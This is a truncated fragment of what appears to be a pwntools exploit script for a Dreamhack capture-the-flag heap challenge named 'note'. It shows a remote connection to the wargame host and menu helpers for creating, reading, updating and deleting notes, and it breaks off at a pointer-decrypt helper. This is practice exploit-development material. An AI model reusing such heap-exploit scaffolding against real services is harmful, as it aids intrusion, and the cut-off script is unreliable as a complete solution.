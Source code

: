 

```python

from pwn import *



p = remote("host8.dreamhack.games", 19728)

#p = remote('localhost', 31337)

#p = process('./note')

elf = ELF("./note")



def create(idx, size, data):

&nbsp;   p.sendline(b'1')

&nbsp;   p.sendlineafter(b'idx: ', str(idx).encode())

&nbsp;   p.sendlineafter(b'size: ', str(size).encode())

&nbsp;   p.sendafter(b'data: ', data)



def read_note(idx):

&nbsp;   p.sendline(b'2')

&nbsp;   p.sendlineafter(b'idx: ', str(idx).encode())

&nbsp;   p.recvuntil(b"data: ")

&nbsp;   leak = p.recvline().strip()

&nbsp;   return leak



def update(idx, data):

&nbsp;   p.sendline(b'3')

&nbsp;   p.sendlineafter(b'idx: ', str(idx).encode())

&nbsp;   p.sendafter(b'data: ', data)



def delete(idx):

&nbsp;   p.sendline(b'4')

&nbsp;   p.sendlineafter(b'idx: ', str(idx).encode())



def decrypt(cipher):

&nbsp;   key = 0
```